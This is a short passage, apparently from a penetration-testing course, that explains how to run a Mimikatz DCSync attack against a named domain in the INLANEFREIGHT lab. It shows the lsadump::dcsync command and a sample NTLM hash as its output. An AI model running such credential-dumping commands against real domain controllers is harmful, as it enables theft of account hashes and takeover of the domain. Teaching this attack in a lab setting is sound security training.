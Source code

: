 When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:
```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```
```powershell-session
663715a1a8b957e8e9943cc98ea451b6
```

